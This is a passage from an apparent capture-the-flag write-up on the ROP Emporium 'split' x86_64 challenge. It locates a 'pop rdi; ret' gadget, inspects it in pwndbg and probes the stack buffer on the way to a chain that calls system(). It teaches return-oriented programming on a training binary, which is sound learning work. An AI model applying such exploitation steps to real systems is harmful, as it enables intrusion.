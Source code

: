 Now we are going to change our code execution like,

``` pop rdi ; ret ---> args ---> system() ```

Lets find the ROP gadgets of ```rdi```,

```c
ra@moni:~/split$ ROPgadget --binary split | grep "pop rdi"
0x00000000004007c3 : pop rdi ; ret
```

Our ```pop rdi ; ret ``` is a part of ```__libc_csu_init```

```c
pwndbg> x/3i 0x00000000004007c3
   0x4007c3 <__libc_csu_init+99>:	pop    rdi
   0x4007c4 <__libc_csu_init+100>:	ret
   0x4007c5:	nop
```

Now lets find our buffer space,

```c
pwndbg> b *0x0000000000400735
Breakpoint 1 at 0x400735
pwndbg> r
Starting program: /home/ra/split/split
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> AAAABBBBCCCCDDDD

Breakpoint 1, 0x0000000000400735 in pwnme ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────
 RAX  0x11
 RBX  0x400760 (__libc_csu_init) ◂— push   r15
 RCX  0x7ffff7ece142 (read+18) ◂— cmp    rax, -0x1000 /* 'H=' */
 RDX  0x60
 RDI  0x0
 RSI  0x7fffffffe030 ◂— 'AAAABBBBCCCCDDDD\n'
 R8   0x2
 R9   0x2
 R10  0xfffffffffffff27a
 R11  0x246
 R12  0x4005b0 (_start) ◂— xor    ebp, ebp
 R13  0x7fffffffe150 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7fffffffe050 —▸ 0x7fffffffe060 ◂— 0x0
 RSP  0x7fffffffe030 ◂— 'AAAABBBBCCCCDDDD\n'
 RIP  0x400735 (pwnme+77) ◂— mov    edi, 0x40083f
─────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────
 ► 0x400735 <pwnme+77>             mov    edi, 0x40083f
   0x40073a <pwnme+82>             call   puts@plt <puts@plt>

   0x40073f <pwnme+87>             nop
   0x400740 <pwnme+88>             leave
   0x400741 <pwnme+89>             ret

   0x400742 <usefulFunction>       push   rbp
   0x400743 <usefulFunction+1>     mov    rbp, rsp
   0x400746 <usefulFunction+4>     mov    edi, 0x40084a
   0x40074b <usefulFunction+9>     call   system@plt <system@plt>
```